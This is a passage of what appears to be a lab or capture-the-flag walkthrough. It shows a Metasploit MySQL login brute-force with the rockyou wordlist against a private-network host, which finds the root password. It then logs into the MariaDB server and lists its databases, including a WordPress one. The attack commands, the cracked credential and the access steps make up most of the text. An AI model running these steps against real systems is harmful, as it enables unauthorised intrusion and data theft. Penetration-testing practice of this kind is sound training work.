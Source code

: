 ```
Metasploit tip: Use sessions -1 to interact with the 
last opened session
Metasploit Documentation: https://docs.metasploit.com/


msf6 > use auxiliary/scanner/mysql/mysql_login 

msf6 auxiliary(scanner/mysql/mysql_login) > set PASS_FILE /home/astra/rockyou.txt
PASS_FILE => /home/astra/rockyou.txt

msf6 auxiliary(scanner/mysql/mysql_login) > set RHOST 192.168.164.88
RHOST => 192.168.164.88

msf6 auxiliary(scanner/mysql/mysql_login) > run

[+] 192.168.164.88:3306   - 192.168.164.88:3306 - Found remote MySQL version 5.5.5
[!] 192.168.164.88:3306   - No active DB -- Credential data will not be saved!
[-] 192.168.164.88:3306   - 192.168.164.88:3306 - LOGIN FAILED: root: (Incorrect: Access denied for user 'root'@'192.168.45.5' (using password: NO))
[-] 192.168.164.88:3306   - 192.168.164.88:3306 - LOGIN FAILED: root:123456 (Incorrect: Access denied for user 'root'@'192.168.45.5' (using password: YES))
[-] 192.168.164.88:3306   - 192.168.164.88:3306 - LOGIN FAILED: root:12345 (Incorrect: Access denied for user 'root'@'192.168.45.5' (using password: YES))
[-] 192.168.164.88:3306   - 192.168.164.88:3306 - LOGIN FAILED: root:123456789 (Incorrect: Access denied for user 'root'@'192.168.45.5' (using password: YES))
[-] 192.168.164.88:3306   - 192.168.164.88:3306 - LOGIN FAILED: root:password (Incorrect: Access denied for user 'root'@'192.168.45.5' (using password: YES)
[+] 192.168.164.88:3306   - 192.168.164.88:3306 - Success: 'root:robert'
```
// Now we got the password for the user "root" and will login to the mysql database remotely
```
┌──(root㉿kali)-[/home/astra]
└─# mysql -h 192.168.164.88 -p

Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 346
Server version: 10.3.22-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```
// Now we got access to the database, so now we will look for some login information
```
MariaDB [(none)]> show databases;

+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| wordpress_db       |
+--------------------+
4 rows in set (0.127 sec)

MariaDB [(none)]> use wordpress_db;

Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

```